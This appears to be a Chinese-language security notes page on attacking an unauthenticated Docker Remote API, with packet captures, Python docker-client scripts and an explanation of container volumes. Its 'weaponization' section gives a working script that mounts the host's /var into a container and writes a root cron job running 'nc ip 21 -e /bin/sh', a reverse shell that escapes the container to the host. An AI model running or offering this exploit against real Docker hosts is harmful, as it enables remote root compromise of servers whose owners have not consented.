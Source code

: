 	10.10.40.21:2375/version

	10.10.40.21:2375/info



	docker -H tcp://10.10.40.21:2376 images

对上面的命令抓包：

	HEAD /_ping HTTP/1.1
	Host: 10.10.40.21:2376
	User-Agent: Docker-Client/19.03.13 (linux)

	HTTP/1.1 404 Not Found
	Content-Type: application/json
	Date: Mon, 15 Nov 2021 06:16:05 GMT
	Content-Length: 29
	
	GET /_ping HTTP/1.1
	Host: 10.10.40.21:2376
	User-Agent: Docker-Client/19.03.13 (linux)
	
	HTTP/1.1 200 OK
	Api-Version: 1.37
	Docker-Experimental: false
	Ostype: linux
	Server: Docker/18.03.0-ce (linux)
	Date: Mon, 15 Nov 2021 06:16:05 GMT
	Content-Length: 2
	Content-Type: text/plain; charset=utf-8
	
	OKGET /v1.37/images/json HTTP/1.1
	Host: 10.10.40.21:2376
	User-Agent: Docker-Client/19.03.13 (linux)
	
	HTTP/1.1 200 OK
	Api-Version: 1.37
	Content-Type: application/json
	Docker-Experimental: false
	Ostype: linux
	Server: Docker/18.03.0-ce (linux)
	Date: Mon, 15 Nov 2021 06:16:05 GMT
	Content-Length: 3
	
	[]

通过响应 ```Api-Version: 1.37```拿到docker 版本。

![](1.png)

	# -*- coding:utf-8 -*-
	__author__ = 'leezp'
	__date__ = 20211108
	
	import docker
	
	client = docker.DockerClient(base_url='http://10.10.40.21:2376/')
	print(client.containers.run('alpine:latest', 'echo hello world'))

return:

	E:\software\python3.6\python.exe docker unauth.py"
	b'hello world\n'

见 echo helloworld.pcap

## 容器数据卷volumes

当我们把一个运行中的容器关闭后，容器里面的数据就没有了（如果你做了docker commit操作，数据会保留到新的镜像里面）。

容器之间如果需要共享数据，这时需要容器数据卷。**数据卷就是用来解决数据持久化和数据共享的。**

卷就是目录或文件，存在一个或者多个容器中，由docker宿主机挂载到容器上，但不属于联合文件系统，因此能绕过联合文件系统提供一些用于持久存储或共享数据的特性。

**卷的设计目的就是数据的持久化，完全独立于容器的生存周期，因此docker不会在容器删除时删除其挂载的数据卷。**

数据卷的生命周期一直持续到没有容器使用它为止。

在容器内添加数据卷有两种方法，一个是直接用命令添加，一个是用dockerfile添加。

验证容器和宿主机之间数据共享：

在/宿主机Volume和/docker_Volume上各创建文件，都能互相看到。

## 武器化

	# -*- coding:utf-8 -*-
	__author__ = 'leezp'
	__date__ = 20211108
	
	import docker
	
	client = docker.DockerClient(base_url='http://10.10.40.21:2375/')
	data = client.containers.run('s2-016_struts2:latest',
	                             r'''sh -c "echo '* * * * * /usr/bin/nc ip 21 -e /bin/sh' >> /tmp/var/spool/cron/root" ''',
	                             remove=True, volumes={'/var': {'bind': '/tmp/var', 'mode': 'rw'}})

```'mode': 'rw'```表示可读可写，volumes  表示  将 宿主机的 /var 目录绑定到 docker 的 /tmp/var 目录下

remove=True 表示启动完docker 将其删除。

定时任务的目录 ：  /var/spool/cron/ 目录下，有些是 /var/spool/cron/crontabs/root 表示root用户的记录任务，有些是 /var/spool/cron/root 路径。  即 crontab -l -uroot 命令的结果

**逃逸原理：通过磁盘挂载，将计划任务写到宿主机。**

攻击成功：

![](2.png)

备注：Docker使用socket进行客户端和服务端的连接，unix:///var/run/docker.sock Unix端口，是默认的连接方式

## reference

[docker笔记12-容器数据卷volumes](http://blog.itpub.net/28916011/viewspace-2213253/)

[docker逃逸总结](https://www.cnblogs.com/TheTh1nk3r/p/15345381.html#0x01-docker-remote-api-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)

[常见未授权访问漏洞总结](https://www.cnblogs.com/linuxsec/articles/11426507.html)

![](4.png)